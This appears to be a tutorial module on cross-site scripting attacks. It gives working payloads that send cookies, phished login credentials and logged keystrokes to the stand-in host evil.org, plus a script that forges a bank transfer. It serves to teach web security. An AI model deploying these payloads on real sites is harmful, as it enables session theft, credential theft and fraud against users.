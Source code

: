 ```yaml
---
title: XSS Examples
module: 11
jotted: false
---
```


# Cross-site scripting (XSS) examples
Before we go into specific examples, we should also point out an important distinction. Some XSS attacks are aimed at acquiring information only once. In these cases, the victim computer executes a malicious script and sends stolen information to an attacker-controlled server.

Other attacks, however, focus on repeated exploits by:

1. Hijacking a user session and logging in to the account to collect information.
2. Phishing and logging in to an account with the username and password.
3. Changing the password of the victim. This is possible when the application allows changing or resetting passwords without having to enter the old password (or a one-time code).
4. Creating a new privileged user, when the victim has the rights to do so.
5. Implanting a JavaScript backdoor. For this, the victim needs to have rights to edit page content. This could also involve stored XSS on frequently visited pages, if the victim has the necessary rights.
6. Application attacks by leveraging the victim's rights have targeted WordPress (remote code execution [RCE] through the template/plugin editor in the admin panel) and Joomla (RCE through download of arbitrary files).
7. As we have seen, XSS allows executing JavaScript in the context of a vulnerable web application. But unlike SQLi, XXE, AFR, and others, JavaScript scripts are executed in the end user's web browser. The primary goal of an XSS attack is to access the user's resources. Let's look at a few examples of such attacks.

## Session hijacking

Imagine the following scenario. A user opens a browser and goes to an online banking page. The user is prompted to log in with their username and password. Obviously, the user's subsequent actions should then be regarded as legitimate. But how do you verify this legitimacy without asking the user to log in after every single click?

Fortunately for users, there is a way of doing that. After successful authentication, the server generates a string that uniquely identifies the current user session. This string is passed in a response header, in the form of cookie data. The following screenshot shows an example of a server response in which the session cookie is called JSESSIONID:

On subsequent visits to the server, the cookie data will be automatically included in the request. This data will be used by the server to determine whether the request comes from a legitimate user. Naturally, the security of session cookies then becomes critical. Any interception of this information would enable impersonating a legitimate user.

One of the classic ways to transfer session cookie data to an attacker is to send an HTTP request from the user's web browser to an attacker-controlled server. In this case, the request is generated by JavaScript that is embedded on a vulnerable web page. The cookie data is then transmitted in the parameters of this request. One example of an attack vector could be the following:

    
```html
<script>new Image().src="http://evil.org/do?data="+document.cookie;</script>
```

In this example, the user's web browser creates an image object in the DOM model. After that, it tries to load the image from the address specified in the src tag. The browser then sends the cookie data to the attacker's site with the corresponding HTTP request handler:

    
```js
@GetMapping(value = "/do", produces = MediaType.IMAGE_PNG_VALUE)
public @ResponseBody byte[] getImage(@RequestParam(name = "data") String data) throws IOException {
    log.info("Document.cookie = {}", data);
    InputStream in = getClass().getResourceAsStream("/images/1x1.png");
    return IOUtils.toByteArray(in);
}
```

In this case, an attacker only needs to listen to incoming connections, or else configure event logs and obtain cookie data from the log files (this is described later in more detail).

Later on, an attacker can use session cookie data in their own requests to impersonate the user.

## Impersonating the current user

JavaScript is a very capable programming language. An attacker can use these abilities, combined with XSS vulnerabilities, simultaneously as part of an attack vector. So instead of XSS being a way just to obtain critical user data, it can also be a way to conduct an attack directly from the user's browser.

For example, XMLHttpRequest objects are used to generate HTTP requests to web application resources. Such requests may include generating and submitting HTML forms via POST requests, which are automatic and often invisible. These requests can be used to send comments or to conduct financial transactions:

    
```html
<script>
    var req = new XMLHttpRequest();
    req.open('POST','http://bank.org/transfer',true);
    req.setRequestHeader('Content-type','application/x-www-form-urlencoded');
    req.send('from=A&to=B&amount=1000');
</script>
```

By exploiting an XSS vulnerability with this attack vector, malicious actors can transfer any specified amount of money to their accounts.

## Phishing attacks

As noted already, XSS can be used to embed JavaScript scripts that modify the DOM model in a web page. This allows an attacker to change how the website appears to the user, such as by creating fake input forms. If a vulnerable web application permits modifications to the DOM model, an attacker could inject a fake authentication form into the web page by using the following attack vector:

```html
<h3>Please login to proceed</h3><form action="http://evil.org/login" method="post">Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon">
```

The following form will be displayedthen appears on the web page:

Any credentials that a user enters in this form will be sent as a POST request to the evil.org attacker website:


## Capture keystrokes

Opportunities for exploiting XSS vulnerabilities are not limited to executable scripts. If an attacker has an Internet server, malicious scripts can be loaded directly from it. An attacker could deploy the following script to capture keystrokes:

    
```js
var buffer = [];
var evilSite = 'http://evil.org/keys?data='
 
document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
        k: e.key,
        t: timestamp
    };
    buffer.push(stroke);
}
 
window.setInterval(function() {
    if (0 == buffer.length) return;
    var data = encodeURIComponent(JSON.stringify(buffer));
    new Image().src = evilSite + data;
    buffer = [];
}, 600);
``` 

The script here implements a keystroke interceptor that saves the corresponding character and timestamp to the internal buffer. It also implements a function that sends data stored in the buffer twice per second to the evil.org attacker server.

In order to embed this keylogger script on a target web page, actors can use the following attack vector:

```html
<script src="http://evil.org/js?name=keystrokes">
```

After the exploit is triggered, the user's keystrokes on the web page will be redirected to the attacker server:

The screenshot shows entries from the event log on the attacker server. In this example, the user has typed "James" on the keyboard. These records show keystrokes presented in JSON format: the field "k" contains a character and the field "t" contains the corresponding timestamp.